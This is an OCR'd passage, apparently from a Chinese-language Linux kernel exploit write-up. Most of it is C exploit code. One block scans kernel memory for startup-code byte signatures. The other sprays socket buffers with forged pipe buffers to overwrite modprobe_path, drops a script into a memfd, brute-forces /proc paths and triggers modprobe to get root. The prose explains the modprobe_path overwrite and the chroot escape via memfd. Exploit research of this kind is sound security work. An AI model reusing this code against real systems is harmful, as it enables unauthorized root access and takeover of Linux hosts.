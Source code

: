 ```
    if (memcmp(addr + 0x0, "\xfc\x0f\x01\x15", 4) == 0 &&
        memcmp(addr + 0x8, "\xb8\x10\x00\x00\x00\x8e\xd8\x8e\xc0\x8e\xd0\xbf", 12) == 0 &&
        memcmp(addr + 0x18, "\x89\xde\x8b\x0d", 4) == 0 &&
        memcmp(addr + 0x20, "\xc1\xe9\x02\xf3\xa5\xbc", 6) == 0 &&
        memcmp(addr + 0x2a, "\x0f\x20\xe0\x83\xc8\x20\x0f\x22\xe0\xb9\x80\x00\x00\xc0\x0f\x32\x0f\xba\xe8\x08\x0f\x30\xb8\x00", 24) == 0 &&
        memcmp(addr + 0x45, "\x0f\x22\xd8\xb8\x01\x00\x00\x80\x0f\x22\xc0\xea\x57\x00\x00", 15) == 0 &&
        memcmp(addr + 0x55, "\x08\x00\xb9\x01\x01\x00\xc0\xb8", 8) == 0 &&
        memcmp(addr + 0x61, "\x31\xd2\x0f\x30\xe8", 5) == 0 &&
        memcmp(addr + 0x6a, "\x48\xc7\xc6", 3) == 0 &&
        memcmp(addr + 0x71, "\x48\xc7\xc0\x80\x00\x00", 6) == 0 &&
        memcmp(addr + 0x78, "\xff\xe0", 2) == 0)
        return true;

    return false;
}
[...]
```  
  
在内核内存中定位/sbin/modprobe  
 字符串并将其替换为指向我们所拥有文件的可控值变得相对简单。  
  
虽然我们在 chroot 环境中运行且无法在根文件系统创建文件，但有一个广为人知的技巧可以解决这个问题 - 通过/proc/<pid>/fd/<n>  
 路径暴露 memfd。值得注意的是，由于我们无法获知非特权命名空间外的进程 ID，因此需要采用暴力枚举的方式。  
```
[...]
    puts("[*] overwrite modprobe_path");
    for (int i = 0; i < 4194304; i++)
    {
        pipebuf->page = modprobe_page;
        pipebuf->offset = modprobe_off;
        pipebuf->len = 0;
        for (int i = 0; i < SKBUF_SPRAY; i++)
        {
            if (write(sock[i][0], pipebuf, 1024 - 320) < 0)
            {
                perror("[-] write(socket)");
                break;
            }
        }

        memset(&data, 0, PAGE_SIZE);
        snprintf(fd_path, sizeof(fd_path), "/proc/%i/fd/%i", i, modprobe_fd);

        lseek(modprobe_fd, 0, SEEK_SET);
        dprintf(modprobe_fd, MODPROBE_SCRIPT, i, status_fd, i, stdin_fd, i, stdout_fd);

        if (write(pfd[pipe_idx][1], fd_path, 32) < 0)
        {
            perror("\n[-] write(pipe)");
        }

        if (check_modprobe(fd_path))
        {
            puts("[-] failed to overwrite modprobe");
            break;
        }

        if (trigger_modprobe(status_fd))
        {
            puts("\n[+] got root");
            goto out;
        }
```